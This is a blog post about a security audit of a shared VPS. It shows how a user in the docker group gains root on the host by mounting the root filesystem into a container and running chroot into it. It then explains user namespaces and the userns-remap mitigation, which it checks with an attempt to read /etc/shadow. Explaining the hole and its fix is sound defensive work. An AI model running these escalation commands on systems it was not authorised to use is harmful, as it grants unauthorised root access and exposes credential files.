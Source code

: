 +++
title = "Privilege escalation using Docker"
date = "2020-08-25"
author = "Aloïs Micard"
authorTwitter = "" #do not include @
cover = ""
tags = ["Docker", "Security"]
keywords = ["", ""]
description = ""
showFullContent = false
+++

I have done a little security audit on a friend VPS last week, he was providing Docker runtime
to some people, with SSH access, and wanted to know if his setup was secure.

By default, docker only allow to run command as root user, in most case this is not desired since giving
root access equals giving full power over the host. A simple workaround is to add the user to the 'docker'
group so that the user will be able to dial with the docker socket. That's what my friend has done. But by default
this is **not secure at ALL**.

Let's see how to use the docker group to gain full root access on the host.

This method is really similar to the [lxc group privilege escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation),
and that's how I've come up with this one.

# Privilege escalation

The only thing I had on the VPS was an un-privileged user, like the
others users.

```sh
creekorful@docker01:~$ id
uid=1001(creekorful) gid=1001(creekorful) groups=1001(creekorful),998(docker)
```

Here we can see that we are in the docker group, so we can talk to the docker daemon.

To gain root access one the host, one can create a docker container and mount the host disk
inside it.

Let's try to display the files inside host /root:

```sh
creekorful@docker01:~$ docker run -it -v /:/mnt/root debian:stable-slim ls -altr /mnt/root/root
total 56
-rw-r--r--  1 root root   570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root   148 Aug 17  2015 .profile
drwx------  2 root root  4096 Mar 27 07:52 .ssh
drwx------  2 root root  4096 Mar 27 22:43 .docker
drwxr-xr-x  3 root root  4096 Mar 27 23:07 .local
drwx------  3 root root  4096 Jun  8 09:40 .config
drwxr-xr-x 18 root root  4096 Aug 23 20:14 ..
-rw-------  1 root root 14345 Aug 25 09:14 .viminfo
drwx------  6 root root  4096 Aug 25 09:14 .
-rw-r--r--  1 root root  5774 Aug 25 09:55 .bash_history
```

Since Docker has SUID bit set, we were able to mount the whole host disk
inside the /mnt/root partition (*-v /:/mnt/root*). And since we are root, we can list */root*.

Now let's try to mount again the host filesystem
and use [chroot](https://linux.die.net/man/1/chroot) to gain full privileges.

```sh
creekorful@docker01:~$ docker run -it -v /:/mnt/root debian:stable-slim chroot /mnt/root
# id
uid=0(root) gid=0(root) groups=0(root)
```

We now have full root access on the host.

# How to mitigate the exploit?

Fortunately solutions exist to prevent this exploit. I will cover the most straightforward one.

## Linux namespaces?

Linux has a [namespacing functionality](https://www.man7.org/linux/man-pages/man7/namespaces.7.html) use to
introduce the network, mount, user, ... isolation. Containerization (and therefore Docker) uses these to add security.

Basically each container will run into his own namespaces to isolate it from the host.

The process isolation is implemented using the [user namespace](https://www.man7.org/linux/man-pages/man7/user_namespaces.7.html).
User namespace allow to have a different user inside a namespace than the parent one. We can for example run as root
inside a namespace while being un-privileged.

Let's try this quickly:

```sh
root@test-vm:~# id
uid=0(root) gid=0(root) groups=0(root)
root@test-vm:~# unshare -U /bin/sh # create a namespace and execute /bin/sh inside it
$ id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
$ echo $$ # get current pid
29552
```

By running [unshare](https://man7.org/linux/man-pages/man1/unshare.1.html) I have spawn a /bin/sh process
detached from the user namespace (-U). We can see that I'm know running as nobody inside the namespace,
despite being root on the host.

Each unix process have a /proc/\<pid>/{u,g}id_map files.
These files are used to give a user/group ID mapping: we can say something like:

uid 0 in the current namespace is mapped to uid 1000 on the parent namespace. (0 1000 ...)

Let's try to give us an identity in our namespace.

```sh
root@test-vm:~#echo "1000 0 65536" > /proc/29552/uid_map
```

By issuing this command we will override the identity mapping of the namespace in the following way:
- uid in the namespace will start at 1000
- uid will be mapped in the parent namespace starting from 0
- the next 65536 uids will be mapped using this rule

So basically the first uid being assigned in the namespaced process will have uid 1000 and this will
correspond to uid 1000+0 = 1000 in the parent namespace.

Let's confirm that:

```sh
$ id
uid=1000(creekorful) gid=65534(nogroup) groups=65534(nogroup)
```

it works! we are now running as uid 1000 in the user namespace.

## Preventing from using root

So now that we know how the user namespace is working,
we'll see how to use that in our advantage. You just need to know that for Docker, 
each container will run in his own user namespace.

Let's inspect the user identity mapping of our container:

```sh
creekorful@docker01:~$ docker run -it -v /:/mnt/root debian:stable-slim chroot /mnt/root
# cat /proc/self/uid_map
         0          0 4294967295
```

This file tells us: uid 0 for current namespace is mapped to parent uid 0, and it's the same up to uid 4294967295.
So being root in the container = being root on the host.

What we will do to mitigate the exploit is to map container uid 0 to something non-root (!= 0) on the host (the parent namespace), 
fortunately this can be done easily by using /etc/sub{g,u}id [files](https://www.man7.org/linux/man-pages/man5/subuid.5.html).

```sh
creekorful@docker01:~$ cat /etc/sub{g,u}id
debian:100000:65536
creekorful:165536:65536
debian:100000:65536
creekorful:165536:65536
...
```

These files are used to determinate the allowed range of sub {user,group} ID allowed to use by the user.
The format is: *<user>:<sub{g,u}id>:<sub{g,u}id count>*

So what we will do is add an *dockremap* (special docker user) entry to these files, and limit the sub{g,u}id of this user.

I have asked my friend to perform the following:

Add the dockremap entry to the /etc/subuid file:

```
root@docker01:~# echo 'dockremap:100:65536' >> /etc/subuid
```

By doing this we are saying: root inside the container (0) will be mapped to uid (100) in the parent namespace (on the host).

Now we must ask docker to create the container using the *dockremap* user.
This can be done by modifying /etc/docker/daemon.json

```json
{
  "userns-remap": "default"
}
```

(Default means use dockremap user).

And finally, just restart the docker daemon to apply the changes.

```sh
root@docker01:~# systemctl restart docker
```

# Let's try again

```sh
creekorful@docker01:~$ docker run -it -v /:/mnt/root debian:stable-slim /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

As we can see we are still root inside the container. But what's for the outside?

```sh
# cat /proc/self/uid_map
         0        100      65536
```

the uid is now 100 instead of 0. We are no more root (our user id on the host is now 0+100=100).

Let's try to check the content of /etc/shadow to make sure it's working:

```sh
# cat /mnt/root/etc/shadow
cat: can't open '/mnt/root/etc/shadow': Permission denied
```

the exploit is now mitigated.

Happy hacking!
